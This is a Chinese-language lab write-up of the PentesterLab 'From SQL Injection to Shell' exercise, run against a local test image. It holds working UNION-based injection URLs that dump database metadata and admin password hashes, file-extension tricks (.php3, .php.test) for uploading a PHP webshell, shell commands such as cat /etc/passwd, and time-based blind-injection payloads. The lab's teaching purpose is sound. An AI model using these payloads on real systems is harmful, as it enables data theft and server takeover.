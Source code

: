 # From SQL Injection to Shell  

### SQL Injection 产生原因  
- 太过于信任用户所输入的数据，未限制输入的字符数，未对用户输入的数据做潜在指令的检查。当用户输入的数据包含SQL代码时，该SQL代码在服务端脚本的执行过程中被带入到数据库引擎当作一段SQL代码执行，就会导致SQL注入。


### SQL Injection 攻击原理   
- 基于B/S应用开发模式编写应用程序，在编写代码的时候，没有对用户输入数据的合法性进行判断，使应用程序存在安全隐患   
- 用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据  
- SQL注入是从正常的WWW端口访问，而且表面看起来跟一般的Web页面访问没什么区别。  
### SQL Injection 攻击分类
1. 按攻击手段分类  

	Piggy-backed Queries  多命令语句攻击  

	Tautologies   恒真命题攻击  

	Alternate Encodings   其他编码攻击  

	Illegal/Logically Incorrect Queries  非法查询攻击  

	Union Query   联合查询攻击  

	Stored Procedures  存储过程的注入攻击  


2. 按获取数据方式  
	**Inband：**  
	Inband技术使用攻击者和有漏洞的Web应用程序之间现有的渠道来提取数据。通常该通道是标准的Web服务器响应。  
	**inference（推理）：**  
	Inference技术中，攻击者通过应用程序表现的差异来推断数据的值。Inference技术能够逐位提取恶意SQL查询结果，却没有真正传输数据。  
	**out-of-band：**  
	Out-of-band(OOB)技术，与inband相反，使用其它传输信道获取数据，例如超文本传输协议和DNS解析协议。



### 基本思路   
- 收集web开发的基本信息  
- 检测并利用SQL注入检索信息
- 获取管理员权限并执行代码  

### 实验环境   
- 服务器采用的是Pentesterlab封装好的镜像来进行搭建，采用的是debian的系统。  
- 攻击方可采用kali、Windows等多种系统。     

### 实验过程
- **通过调查分析得知目标是基于PHP开发的网站**   
- **SQL注入漏洞的判断**  
SQL Injection Cheat Sheet  
SQL注入备忘单是一个资源，您可以在其中找到有关SQL注入漏洞的许多不同变体的详细技术信息。这个备忘单对于经验丰富的渗透测试者以及那些刚开始使用Web应用程序安全性的人来说都是很好的参考

  **1.整型参数的判断**  
  **2.字符串型参数的判断**  
  
- **利用关键词UNION检索信息**  
为了执行一个SQL注入请求，需要知道查询第一部分返回的列数  
两种方法：  
1.使用UNION SELECT语句并增加列数。如果UNION语句连接的两个查询返回的列数不同，数据库会报错。因此可以通过这个方法来猜测列数  

**示例：**  
  列数不同时会报错： 
![](image/1.jpg)  
列数相同时则能正常显示：  
http://localhost/cat.php?id=1%20union%20select%201,2,3,4  
说明该页面的列数为4  
2.使用ORDER BY 语句，返回的结果会根据ORDER BY 语句选择的列进行排序，ORDER BY后可以是列名，也可以是第几列的数字，如果列数超出现有值，数据库会报错。因此可以通过这个方法可以找到最后一列  
**示例**  
列数小于等于页面列数时，可以正常显示  
列数大于页面列数时，会报错：  
http://localhost/cat.php?id=1%20order%20by%205  
![](image/2.jpg)  
- **基于所收到的错误消息，得知所使用的后台数据库是MySQL**  
利用这些信息，可以强制数据库执行一个函数或发送信息给我们  
两种方法：  
1.使用current_user()语句，用来取得 MySQL 当前使用者名称 
2.使用version()语句，得到数据库版本号  
**示例：**  
**the database version:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4  
http://localhost/cat.php?id=1%20union%20select%201,version%28%29,3,4  
![](image/3.jpg)  
   **the current user:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,current_user(),3,4  
![](image/4.jpg)  
**the current database:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,database(),3,4  
![](image/5.jpg)  
 **利用返回的meta-information构建最终请求**  
从MySQL版本5开始，MySQL提供关于数据库、表、列的meta-information，这些信息储存在information_schema数据库里  
得到列与其对应的表  
**the list of tables:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,table_name,3,4%20FROM%20information_schema.tables
![](image/6.jpg)  
**the list of columns:**http://localhost/cat.php?id=1%20UNION%20SELECT%201,column_name,3,4%20FROM%20information_schema.columns  
![](image/7.jpg)  
**利用查询语句得到管理员账号与密码**  
- 获取用于访问管理页面的用户名和密码：http://localhost/cat.php?id=1%20UNION%20SELECT%201,concat(login,%27:%27,password),3,4%20FROM%20users  
 ![](image/8.jpg)  
**利用网络查询或密码破解工具得到密码明文**  
- [md5在线解密破解（需要付费）](http://www.cmd5.com/)  
![](image/9.jpg) 
- [md5在线解密破解](http://pmd5.com/)  
![](image/10.jpg)  
**根据已知的账号密码成功登录到管理员界面：**
 ![](image/11.jpg) 
**上传webshell和执行代码获取管理员权限**  
webshell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WEB目录下正常的网页文件混在一起，然后就可以使用浏览器来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的  
- 用账号密码登陆网站，找到上传文件位置，上传一个 php 脚本  
![](image/12.jpg)  
![](image/13.jpg)  
![](image/14.jpg)  
我们可以看到这个脚本没有在服务器上正确上传。应用防止文件扩展名.PHP上传。然而，我们可以尝试：  
- .PHP3这将绕过简单的.php过滤器  
- .php.test这将绕过简单的.php过滤器，但Apache仍会将它视作.php文件，因为配置中没有对于.test文件的处理器。  
![](image/15.jpg)  
修改后可以成功上传  
打开上传的图片，通过查看该页面的源代码，得到图片的URL  
![](image/16.jpg)  
访问http://localhost/admin/uploads/shell.php3?cmd=uname将运行在操作系统的命令信息并返回当前的内核（Linux）  
![](image/17.jpg)  
其他命令可以用来检索更多的信息：  
cat /etc/passwd 来得到系统的完整的用户列表  
![](image/18.jpg) 
uname -a 获取当前的内核版本  
![](image/19.jpg)
ls 获取当前目录的内容  
![](image/20.jpg)  

## 盲注  
### 为什么叫盲注  
与普通的注入不同的是，SQL盲注是一种通过向数据库请求真或假的问题然后根据回应来决定或判断答案的一种SQL注入式攻击。例如发现了SQL注入点，但应用只提供了一个通用的错误页面，或者说提供了正常的页面，但与我们取回的内容只有细小差异（部分可能不可见或不易观察），这些就属于SQL盲注。  
### SQL盲注分类  
- 基于内容  
    *  "xxx.php?id=2 and 1=2" 
    * If the content of the page that returns 'true' is different than that of the page that returns 'false', then the attacker is able to distinguish when the executed query returns true or false.  
- 基于时间  
    *  "xxx.php?id=1' waitfor delay '00:00:10'--"  (Microsoft SQL Server)  
    * Mysql 常搭配 sleep()与benchmark()使用  
    * 通过服务器响应的时间可以判断出语句成功或失败  
**SQL盲注实质仍属于SQL注入，需要通过多次进行真假的询问来对内容进行逐字符的猜解**  


###参考资料  
1. [pentesterlab course](https://pentesterlab.com/exercises/from_sqli_to_shell/course)  
2. [WIKIPEDIA SQL injection](https://en.wikipedia.org/wiki/SQL_injection)
3. [A Classification of SQL Injection Attack Techniques and Countermeasures](http://www.cc.gatech.edu/~orso/papers/halfond.viegas.orso.ISSSE06.presentation.pdf)  
4. [SQL Injection](http://hwang.cisdept.cpp.edu/swanew/Text/SQL-Injection.htm)
5. [A Classification of SQL Injection Attacks and Countermeasures ](https://pdfs.semanticscholar.org/81a5/02b52485e52713ccab6d260f15871c2acdcb.pdf)
6. [在DNS中的SQL注入攻击](http://blog.csdn.net/netsec_steven/article/details/52763702)
7. [SQL Injection Tutorial](http://www.w3resource.com/sql/sql-injection/sql-injection.php)



